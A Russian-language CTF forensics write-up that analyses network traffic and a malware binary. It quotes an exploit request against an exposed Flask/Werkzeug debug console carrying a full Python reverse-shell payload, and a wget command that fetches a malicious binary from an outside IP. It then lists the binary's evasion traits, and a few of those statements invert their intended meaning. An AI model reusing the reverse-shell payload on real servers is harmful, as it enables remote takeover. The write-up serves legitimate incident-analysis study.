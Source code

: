 Это эксплуатация отладочной консоли Flask (Werkzeug), которая позволяет выполнить произвольный Python-код. <br>
Благодаря этому злоумышленник смог запустить reverse-shell на 10.10.10.12:900:

```shell
'GET /console?&__debugger__=yes&cmd=import%20socket,subprocess,os;s%3Dsocket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.10.12%22,9001));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22bash%22)&frm=0&s=yqqPfQiFZmXsmnZQYMPF'
```

<br><br>
<h2>Враг врага 2 - 2</h2>
Анализ 48 потока. <br>
Было найдено 2 подозрительных ip.<br> 
1. 81.177.221.242<br>
    Отправлял вредоносный бинарный файл app через HTTP (порт 8125): wget http://81.177.221.242:8125/app <br>
<br>
2. 10.10.10.12<br>
    Принимал reverse-shell на порт 9001 через эксплойт Flask debug console: s.connect(("10.10.10.12", 9001))<br>

<br><br>
<h2>Враг врага 2 - 3</h2>

1. Динамическая компоновка (Dynamic Linking): Программа использует стандартные библиотеки (libc.so.6) через .dynsym и .got.plt и вызывает функции через PLT/GOT (Procedure Linkage Table / Global Offset Table), что усложняет статический анализ. Это помогает избегать хардкода системных вызовов, маскируясь под легитимное ПО.
<br>
2. Отсутствие явной обфускации: Нет классических техник обфускации (UPX, XOR, base64) и код выглядит как обычное Linux-приложение. Это привлекает внимание антивирусов, анализирующих подозрительные бинарные паттерны.
<br>
3. Минималистичный набор импортов: Использует только базовые функции (open, read, write, strcpy), которые есть в любом легитимном ПО - нет подозрительных импортов (например, ptrace, inject).
Уменьшает сигнатуры для детектирования (например, YARA-правила).
<br>
4. Работа через файловую систему: Создает директорию storage и файлы с хешированными именами (например, %08x), использует stat, mkdir, open для манипуляций с файлами - маскирует вредоносную активность под обычные файловые операции.
<br>
5. Динамическое патчингование (CUSTOM_write): Из лога: CUSTOM_write found, patched. ok — это значит, что он модифицирует системные вызовы (например, write) в рантайме. Обходит HIDS (системы обнаружения вторжений), отслеживающие вызовы write. Скрывает шифрование файлов от мониторинга.
<br>
6. Отсутствие персистентности: Нет автозагрузки через cron, systemd, .bashrc. Это уменьшает следы в системе после выполнения.
<br>
7. Использование переменных окружения: Читает PASSWORD и FLAG из переменных окружения (getenv), усложняя анализ.
<br>
8. Легитимные секции ELF: Стандартные секции (.text, .data, .bss), нет необычных (например, .malicious), корректные права доступа (RX для кода, RW для данных) - код вызывает подозрений при анализе утилитами (readelf, objdump).

